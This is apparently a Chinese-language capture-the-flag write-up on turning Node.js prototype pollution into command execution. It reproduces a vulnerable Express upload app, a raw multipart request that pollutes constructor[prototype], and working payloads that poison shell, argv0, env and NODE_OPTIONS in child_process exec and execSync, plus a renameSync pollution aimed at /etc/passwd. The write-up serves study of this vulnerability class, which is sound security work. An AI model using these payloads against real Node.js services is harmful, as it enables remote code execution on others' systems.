

nodejs 原型链污染到命令执行
Node
原型链污染是nodejs中比较常见的漏洞，但如何利用原型链污染最终命令执行往往需要结合一些第三方库。 其实在nodejs的源码中，也存在可以利用的地方。
研究生赛中的一道题
主要代码 app.js
const express = require("express");
const merge = require("./utils/merge");
const fs = require("fs");
const multer = require("multer");
const bodyParser = require("body-parser");
const { execSync } = require("child_process");
const PORT = process.env.PORT || 81;
const app = express();
var db = [];
var objMulter = multer({ dest: "./public/upload" });
app.use(objMulter.any());
app.use(express.static("./public"));
app.use(bodyParser.urlencoded());
app.post("/upload", (req, res) => {
try{
console.log(req.files)
let oldPath = req.files[0].path;//["file:///app/public/flag"]
let newPath = oldPath + ".jpg";
let data = {type: "image", path: newPath};
fs.renameSync(oldPath, newPath);
merge(data, req.body);
db.push(data);
res.send(`<script>alert("upload in " + location.origin + "${newPath.slice(6)}");location="/";</script>`);
return;
}catch{
res.send("<script>alert('出错了！');location='/';</script>");
return;
}
});
app.get("/getImg", (req, res) => {
res.send(db);
return;
});
app.get("/rm", (req, res) => {
try{
console.log("a")
execSync("rm -rf /app/public/upload/*");
db = [];
res.send("<script>alert('全都删完喽！');location='/';</script>")
return;
} catch{
res.send("<script>alert('出错了！');location='/';</script>");
return;
}
});
app.listen(PORT, () => {
console.log(`listen at ${PORT}`);
});
上面的题目通过下面的请求，可以容易的原型链污染。
POST /upload HTTP/1.1
Host: 127.0.0.1:81
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 300
Content-Type: multipart/form-data; boundary=df16a984e58633372c92c2c1268ca06e
--df16a984e58633372c92c2c1268ca06e
Content-Disposition: form-data; name="constructor[prototype][fileFilter]"
111111111
--df16a984e58633372c92c2c1268ca06e
Content-Disposition: form-data; name="image"; filename="1.txt"
Content-Type: text/plain
13123123
--df16a984e58633372c92c2c1268ca06e--
但比赛现场没有找到最后rce的方法。赛后找到了几篇文章。
Prototype-pollution-to-rce
child_process
exec
// environ trick - not working
// It's not possible to pollute the .env attr to create a first env var
// because options.env is null (not undefined)
// cmdline trick - working with small variation
// Working after kEmptyObject (fix)
const { exec } = require('child_process');
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/exec-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = exec('something');
// stdin trick - not working
// Not using stdin
// Windows
// Working after kEmptyObject (fix)
const { exec } = require('child_process');
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = exec('something');

结合上面的paylaod，再通过调试node源码，发现在normalizeExecArgs函数中的options.shell的确可以被污染。
 通过输出可以知道options.shell控制了
通过输出可以知道options.shell控制了
继续跟进可以在normalizeExecFileArgs 中发现另一个可以污染的变量argv0。 
{kind=link}
跟到normalizeSpawnArguments 中可以看到将argv0插到args的最前面，并根据不同的平台选择不同的shell。

最后可以跟到调用this._handle.spawn(options);再往下就要调试c++源码了。

但还没出现NODE_OPTIONS这个变量,去查文档最后知道是通过环境变量的方式导入模块.具体为什么要导入就暂时不探究了.
NODE_OPTIONS
{kind=link}
execSync
和上面exec一样的paylaod也是可以触发的,不过最后会报错. 文章中给的下面的方式也是可以的,最后同样会报错.
// environ trick - working with small variation (shell and argv0)
// Working after kEmptyObject (fix)
const { execSync } = require('child_process');
p = {}
// If in windows or mac you need to change the following params to the path of ndoe
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/execSync-environ').toString())//"}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = execSync('something');
fs.renameSync
再贴一个fs中的用来重命名文件的
const fs = require("fs");
b = ["file:///tmp/execSync-environ"]
a = {}
a.__proto__.href = "file:///etc/passwd"
a.__proto__.origin = "a"
a.__proto__.protocol="file:"
a.__proto__.password =""
a.__proto__.username = ""
a.__proto__.port = ""
a.__proto__.search = ""
a.__proto__.hostname = ""
a.__proto__.pathname = "/etc/passwd"
fs.renameSync(b,"file:///tmp/execSync-environ222")

Abstract
但这个其实还挺鸡肋的,需要传入renameSync的第一参数是数组,所以用处不大.